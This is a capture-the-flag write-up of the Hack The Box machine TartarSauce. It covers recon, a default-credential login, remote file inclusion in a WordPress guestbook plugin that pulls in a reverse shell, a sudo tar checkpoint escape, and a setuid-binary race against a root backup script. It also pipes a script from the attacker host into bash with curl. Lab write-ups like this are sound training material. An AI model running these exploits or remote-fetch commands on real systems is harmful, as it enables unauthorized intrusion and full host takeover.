

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/tartarsauce-medium
---

# ✅ TartarSauce (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Remote File Inclusion

**System Vulnerable:** 10.10.10.88

**Vulnerability Explanation:** The machine is vulnerable to RFI on WordPress plug in which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

**Privilege Escalation Vulnerability:** Misconfiguration of permission

**Vulnerability Fix:** Apply patch and restrict permission

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.88    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-11 09:46 EST
Nmap scan report for 10.10.10.88
Host is up (0.047s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
```

## Enumeration

### Port 80 Apache httpd 2.4.18

There's only port 80 open on the machine. Let check it out. It just a simple webpage.

.png>)

Let go through **/robots.txt** to check if there is other directory we can access.&#x20;

.png>)

Out of that 5 disallow, we can access to **/webservices/monstra-3.0.4/** which display a webpage.

.png>)

I just click all the button available on the application to see how the application work. We just see one more login page of **Monstra version 3.0.4.**

.png>)

I have tried login with credential admin/admin and it's worked.

.png>)

Let search for public exploit in case this version of the application is vulnerable.

```
└─$ searchsploit monstra 
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Monstra CMS 1.2.0 - 'login' SQL Injection                                             | php/webapps/38769.txt
Monstra CMS 1.2.1 - Multiple HTML Injection Vulnerabilities                           | php/webapps/37651.html
Monstra CMS 3.0.3 - Multiple Vulnerabilities                                          | php/webapps/39567.txt
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Execution     | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                                         | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload                               | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                                    | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)                             | php/webapps/49949.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                                        | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                                        | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)                    | php/webapps/45164.txt
```

There are many exploit but we need to focus on RCE and Arbitrary File Upload. Unfortunately non of them are working.

Let run gobuster to check if there is any hidden directory. Immediately, we got WP which is for WordPress framework.

```
└─$ gobuster dir -u http://10.10.10.88/webservices -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.88/webservices
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/11 10:11:19 Starting gobuster in directory enumeration mode
===============================================================
/wp                   (Status: 301) [Size: 319] [--> http://10.10.10.88/webservices/wp/]

```

Following through the directory, we found a webpage power by WordPress.

.png>)

We can run wpscan or check the source code.

```
└─$ wpscan --url http://10.10.10.88/webservices/wp wpscan --url http://10.10.10.88:80/webservices/wp -e ap --plugins-detection aggressive
```

```
[+] URL: http://10.10.10.88/webservices/wp/ [10.10.10.88]
[+] Started: Thu Nov 11 22:20:48 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.88/webservices/wp/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.88/webservices/wp/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.88/webservices/wp/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.10.88/webservices/wp/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.10.88/webservices/wp/, Match: 'WordPress 4.9.4'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:29:26 <========================================================================================> (95776 / 95776) 100.00% Time: 00:29:26
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 | Last Updated: 2021-10-01T18:28:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 4.2.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt

[+] brute-force-login-protection
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
 | Latest Version: 1.5.3 (up to date)
 | Last Updated: 2017-06-29T10:39:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/, status: 403
 |
 | Version: 1.5.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] gwolle-gb
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2021-09-14T09:01:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.1.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```

Searching for public exploit of **gwolle**, we found Remote File Inclusion.

```
└─$ searchsploit gwolle      
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion                                                                           | php/webapps/38861.txt
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Exploitation

### Shell as www-date

Checking the script of exploit Remote File Inclusion.

```
Advisory Details:

High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Modify php-reverse-shell code with our IP, Port and rename file to **wp-load.php**. Then, start HTTP server to share the file.

```
python -m SimpleHTTPServer 80
```

Also start netcat listener on port 4444.

```
nc -lvp 4444
```

Let browse with the path that vulnerable to RFI and point to our kali machine.

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.31/
```

.png>)

## Privilege Escalation

### Shell as onuma

Once I'm on the machine, I will run sudo -l to check if there is misconfigure.

.png>)

### /bin/tar

We can execute **/bin/tar** under user onuma without password.&#x20;

```
www-data@TartarSauce:/$ sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash 
/bin/tar: Removing leading `/' from member names
onuma@TartarSauce:/$ whoami
onuma
onuma@TartarSauce:/$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

### Shell as root

Let start HTTP Server and share file **linenum.sh**. But we didn't see any interest.

```
python -m SimpleHTTPServer
```

```
curl 10.10.14.31/linenum.sh | bash
```

Let start running pspy to enumerate the process. We can download from link below

```
https://github.com/DominicBreuker/pspy/blob/master/README.md
```

### Auto script

Once we run the file pspy32, we see the process running in the background.

```
2021/11/13 21:44:08 CMD: UID=0    PID=2445   | /bin/bash /usr/sbin/backuperer 
```

```
onuma@TartarSauce:/usr/sbin$ cat backuperer 
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Let create the script in C and compiles it.

```
#include <unistd.h>
int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

In case error, we can install lib for Gucci.

```
sudo apt install gcc-multilib
```

```
└─$ gcc -m32 -o setuid setuid.c
```

Let switch to root user. Add SetUID to the file `chmod +s setuid`.

```
└─# mkdir -p var/www/html
└─# mv setuid var/www/html 
└─# tar -zcvf exploit.tar.gz var 
var/
var/www/
var/www/html/
var/www/html/setuid
```

Let start HTTP Server to share file to our victim machine.

```
python -m SimpleHTTPServer
onuma@TartarSauce:/var/tmp$ wget 10.10.14.31/exploit.tar.gz
```

Let wait for 5mns and check the folder we found other file.

```
onuma@TartarSauce:/var/tmp$ systemctl list-timers                                      
WARNING: terminal is not fully functional
NEXT                         LEFT          LAST                         PASSED       UNIT     
Sun 2021-11-14 01:00:43 EST  4min 9s left  Sun 2021-11-14 00:55:43 EST  50s ago      backupere
Sun 2021-11-14 06:43:27 EST  5h 46min left Sat 2021-11-13 21:29:01 EST  3h 27min ago apt-daily
Sun 2021-11-14 15:41:53 EST  14h left      Sat 2021-11-13 21:29:01 EST  3h 27min ago apt-daily
Sun 2021-11-14 21:44:05 EST  20h left      Sat 2021-11-13 21:44:05 EST  3h 12min ago systemd-t
```

```
onuma@TartarSauce:/var/tmp$ ls -la
total 48
drwxrwxrwt 10 root  root  4096 Nov 14 00:56 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2649 Nov 14 00:56 .67ea8f0ff41222a4114795e2bf4fcadf4b103557
-rw-r--r--  1 onuma onuma 2649 Nov 14 00:45 exploit.tar.gz
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 May 29  2020 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4096 Nov 13 21:29 systemd-private-95ccd26449184dbc83964cfdc326334d-systemd-timesyncd.service-IRbjIi
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
drwx------  3 root  root  4096 Sep 25  2020 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX
```

Then copy the exploit.tar.gz to .67ea8f0ff41222a4114795e2bf4fcadf4b103557 and wait for 5mns.

```
cp exploit.tar.gz .67ea8f0ff41222a4114795e2bf4fcadf4b103557
```

Let wait for 30 seconds, we found there is another folder pop up "check"

```
onuma@TartarSauce:/var/tmp$ ls -la
total 52
drwxrwxrwt 11 root  root  4096 Nov 14 01:21 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2649 Nov 14 01:21 .8a013f40731013f77ccc1cc3f7f2cf54b2b74166
drwxr-xr-x  3 root  root  4096 Nov 14 01:21 check
-rw-r--r--  1 onuma onuma 2649 Nov 14 00:45 exploit
```

Following the directory check, we can go and executed the file setuid.

```
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
setuid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -la
total 24
drwxr-xr-x 2 root root  4096 Nov 14 00:44 .
drwxr-xr-x 3 root root  4096 Nov 14 00:44 ..
-rwsr-sr-x 1 root root 15148 Nov 14 00:44 setuid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./setuid 
bash-4.3# whoami
root
```
